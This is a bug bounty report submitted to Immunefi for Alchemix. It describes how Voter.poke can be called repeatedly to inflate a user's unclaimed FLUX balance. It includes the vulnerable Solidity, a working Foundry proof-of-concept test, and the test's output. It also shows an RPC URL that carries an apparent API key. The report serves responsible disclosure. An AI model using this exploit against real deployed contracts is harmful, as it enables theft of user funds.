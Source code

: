 
# Malicious user can steal FLUX token by abusing `Voter.poke`

Submitted on Fri May 17 2024 16:21:25 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31386

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Malicious user can steal FLUX token by abusing `Voter.poke`

## Vulnerability Details
In [Voter.poke](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212) funciton, there is not limitation how many time it can be called within one epoch, and at the end of the function, `Voter._vote` is called.
```solidity
195     function poke(uint256 _tokenId) public {
	...
211         _vote(_tokenId, _poolVote, _weights, _boost);
212     }
```

In [Voter._vote](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455), `IFluxToken(FLUX).accrueFlux(_tokenId);` is calle to accrue Flux token in [Voter.sol#L423](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423)

And in [FluxToken.accrueFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192), the function will check the amount of claimable flux and than update `FluxToken.unclaimedFlux`
```solidity
187     /// @inheritdoc IFluxToken
188     function accrueFlux(uint256 _tokenId) external {
189         require(msg.sender == voter, "not voter");
190         uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
191         unclaimedFlux[_tokenId] += amount;
192     }
```

[VotingEscrow.claimableFlux](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377-L385) is defined as:
```solidity
 377     function claimableFlux(uint256 _tokenId) public view returns (uint256) {
 378         // If the lock is expired, no flux is claimable at the current epoch
 379         if (block.timestamp > locked[_tokenId].end) {
 380             return 0;
 381         }
 382 
 383         // Amount of flux claimable is <fluxPerVeALCX> percent of the balance 
 384         return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
 385     }
```

__As we can see above, `claimableFlux` only calcuate the tokenId's voting power, it doesn't record if the Flux has been claimed already.__
So if a malicious user keep calling `Voter.poke`, his tokenId's unclaimedFlux will keeping increasing.


## Impact Details
Malicious user can steal FLUX token by abusing `Voter.poke`

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
Put the following code in `src/test/Voting.t.sol` and run
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/0TbY2mhyGA4gLPShfh-PwBlQ3PDNUdL1 --fork-block-number 17133822 --mc VotingTest --mt testAlicePoke -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testAlicePoke() (gas: 2564522)
Logs:
  getUnclaimedFlux:  1879449739964023604
  getUnclaimedFlux:  2799996511899518614
  getUnclaimedFlux:  3720543283835013624

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.59ms (1.90ms CPU time)

Ran 1 test suite in 1.29s (5.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As we can see from the above output, every time Alice calls `Voter.poke`, her unclaimed Flux will increase.

```solidity
    function testAlicePoke() public {
        address Alice = address(0x11001100);
        uint256 tokenId = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.prank(Alice);
        voter.vote(tokenId, pools, weights, 0);

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));

        hevm.prank(Alice);
        voter.poke(tokenId);
        console2.log("getUnclaimedFlux: ", flux.getUnclaimedFlux(tokenId));
    } 
```